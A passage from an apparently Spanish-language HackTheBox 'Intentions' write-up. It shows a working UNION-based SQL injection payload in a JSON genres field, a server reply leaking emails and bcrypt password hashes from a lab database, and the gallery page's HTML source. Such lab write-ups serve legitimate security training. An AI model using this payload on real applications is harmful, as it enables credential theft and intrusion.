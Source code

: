 ```json
{
    "genres":"')\tUNION\tSELECT\t999,888,group_concat(email,':',password),4,5\tFROM\tusers\t--\t-"
}
```

```json
{"status":"success","data":[{"id":999,"file":"888","genre":"steve@intentions.htb:$2y$10$M\/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa,greg@intentions.htb:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m,hettie.rutherford@example.org:$2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6,nader.alva@example.org:$2y$10$WkBf7NFjzE5GI5SP7hB5\/uA9Bi\/BmoNFIUfhBye4gUql\/JIc\/GTE2,jones.laury@example.com:$2y$10$JembrsnTWIgDZH3vFo1qT.Zf\/hbphiPj1vGdVMXCk56icvD6mn\/ae,wanda93@example.org:$2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW,mwisoky@example.org:$2y$10$pAMvp3xPODhnm38lnbwPYuZN0B\/0nnHyTSMf1pbEoz6Ghjq.ecA7.,lura.zieme@example.org:$2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4\/dXv1jnfBVCpaR2h.SDDioy2,pouros.marcus@example.net:$2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3\/Kx82hjqbJFMO,mellie.okon@example.com:$2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx\/kpO\/XcKw1m,trace94@example.net:$2y$10$by.sn.tdh2V1swiDijAZpe1bUpfQr6ZjNUIkug8LSdR2ZVdS9bR7W,kayleigh18@example.com:$2y$10$9Yf1zb0jwxqeSnzS9CymsevVGLWIDYI4fQRF5704bMN8Vd4vkvvHi,tdach@example.com:$2y$10$UnvH8xiHiZa.wryeO1O5IuARzkwbFogWqE7x74O1we9HYspsv9b2.,lindsey.muller@example.org:$2y$10$yUpaabSbUpbfNIDzvXUrn.1O8I6LbxuK63GqzrWOyEt8DRd0ljyKS
```

Hay demasiados correos con el dominio `example`, vamos a filtrar por los que sean de `intentions.htb`

```bash
steve@intentions.htb:$2y$10$M\/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa
greg@intentions.htb:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m
```

Vale, pero tenemos un inconveniente con estos hashes y es que **son bastante robustos**, la contraseña no parece ser débil o que esté en diccionarios típicos. ¿Qué hacemos entonces?, seguir viendo la web.

Viendo el código fuente de la página, vemos que hay una asset JavaScript de esta parte de la web

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">

        <title>Intentions Gallery</title>

        <script defer src="/js/gallery.js"></script>
        <script defer src="/js/mdb.js"></script>
        <link rel="stylesheet" href="/css/app.css">
    </head>
    <body class="antialiased">
        <div id="app">
            <sidebar></sidebar>
            <main>
                <router-view></router-view>
            </main>
        </div>
    </body>
</html>
```
